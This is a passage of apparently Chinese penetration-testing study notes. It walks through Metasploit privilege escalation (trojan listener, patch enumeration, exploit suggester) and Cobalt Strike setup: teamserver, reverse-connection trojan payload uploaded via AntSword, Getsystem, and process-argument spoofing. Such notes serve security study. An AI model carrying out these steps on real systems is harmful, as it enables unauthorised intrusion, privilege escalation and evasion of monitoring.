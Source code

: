 ~~~shell
	set lport 7755(木马端口)
	run -j(放在后台)
// 如果要返回查看，用sessions命令
 3、windows上运行
 4、返回查看：session-->getuid
 5、backgroud（放在后台）
二、提权
1、kali： use post/windows/gather/enum_patches（找出系统补丁）
	options
	set session n
	run(发现补丁)
2、kali： use post/multi/recon/local_exploit_suggester(识别系统中可能被利用的漏洞)
	options
	set session n
	run(看那些可以提权)
3、利用:kali:use 复制绿色的exploit
	options
	set lport 5555
	run
~~~

Cobalt Strike提权：

~~~shell
# CS（需要服务端和客户端）服务端再linux上
一、连接
1、复制文件夹到kali上
2、kali：启动文件夹下的teamsever -->先改变文件权限-->./teamserver 172.168.20.84 admin123（密码）
3、客户端直接连接：
主机写kali 
端口：50050 
密码：admin123
二、提权（win）
1、CS菜单-->监听器
2、http地址：kali/监听端口9999/
3、有效载荷-->windows可执行程序（相当于反弹连接的木马）
4、中国蚁剑上传木马
5、设置回连间隔
6、用插件进行提权：LSTAR-->权限提升-->Getsystem
# 本地提权
1、远程桌面（如果只用命令行，可能因为弹出的新的窗口导致无法使用）
#london 1.0
# beacon命令：shell whoami
# argue 进程参数欺骗
argue 进程参数欺骗
argue [command] [fake arguments]

链接：https://wbglil.gitbook.io/cobalt-strike/cobalt-strikemo-kuai-jie-shao
~~~



### 2、数据库提权（UDF、MOF）

